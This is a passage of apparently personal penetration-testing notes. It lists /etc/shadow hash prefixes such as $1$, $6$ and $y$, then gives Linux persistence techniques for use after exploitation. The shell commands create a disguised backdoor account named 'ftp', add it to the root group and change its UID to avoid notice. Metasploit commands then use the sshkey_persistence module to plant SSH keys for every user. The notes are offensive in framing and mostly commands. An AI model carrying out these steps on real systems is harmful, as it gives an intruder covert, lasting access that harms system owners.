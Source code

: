 the initial characters of the password field value in _/etc/shadow_ identify the encryption algorithm:

* _$1$_ is [Message Digest 5 (MD5)](https://www.baeldung.com/cs/md5-vs-sha-algorithms#md5)
* _$2a$_ is [_blowfish_](https://www.baeldung.com/cs/des-vs-3des-vs-blowfish-vs-aes#3-blowfish)
* _$5$_ is [256-bit Secure Hash Algorithm (SHA-256)](https://www.baeldung.com/cs/md5-vs-sha-algorithms#sha-2)
* _$6$_ is [512-bit Secure Hash Algorithm (SHA-512)](https://www.baeldung.com/cs/md5-vs-sha-algorithms#1-security-1)
* _$y$_ (or _$7$_) is [_yescrypt_](https://www.openwall.com/yescrypt/)
* none of the above means DES

Critically, as of this writing, _**yescrypt**_**&#x20;with its contest entry** [_**yescrypt v2**_](https://www.password-hashing.net/submissions/specs/yescrypt-v2.pdf) **and** [**current specification**](https://github.com/openwall/yescrypt/blob/main/README)**, is widely-adopted and the default password hashing scheme for many recent versions of major distributions** like [Debian](https://www.debian.org/) 11/12, [Fedora](https://getfedora.org/) 35+, [Kali Linux](https://www.kali.org/get-kali/) 2021.1+, and [Ubuntu](https://ubuntu.com/) 22.04+. Further, it’s supported on Fedora 29+ and [RHEL](https://www.redhat.com/en) 9+. Still, many standard tools still don’t support _yescrypt_.

**Unlike Windows, on Linux we cannot use the hash to authenticate ourselves.**

### Establishing Persistence On Linux

#### Create backdoor user

NB: This technic only work if the target server is running with SSH or a remote access protocol, that can provide us with access whenever we need it (with usr and psw).

After exploiting the target and starting Meterpreter Shell, we need to check if the target has root permission using getuid command, or we need to elevate it.

```bash
shell
/bin/bash -i
cat /etc/passwd
#see it and make sure that account/service name that we want to use doesn't exist
useradd -m ftp -s /bin/bash #if we want to /var/www/html to make service less than clandestine
passwd ftp #create psw
usermod -aG root ftp #provides administrative or root privileges at ftp account
groups ftp #checks group of ftp account
usermod -u 15 ftp #optional, it's only to take ftp account less clandestine, UID (user identifier) is the unique number assigned to the user upon account creation
```

Now, we can use MSF module to take linux persistence using SSK Key (it's more reccomended because if the connection goes down, we can restablish it and in add, it's difficult to detect than others, infact we never need to change psw on the target system).

In details, this module will add an SSH key to a specified user (or all), to allow remote login via SSH at any time. If we don't specify user, module will add an SSH key to all users by default.

If we log in as the root user, it's not a suspicious activity, because if we both log in on the same account, we can't understand the detection.

```bash
search platform:linux persistence
use post/linux/manage/sshkey_persistence #it works with SSH private keys
show options
set CREATESSHFOLDER true #create ssh folder, becase target system may havve not the SSH folder already created
set SESSION number
```
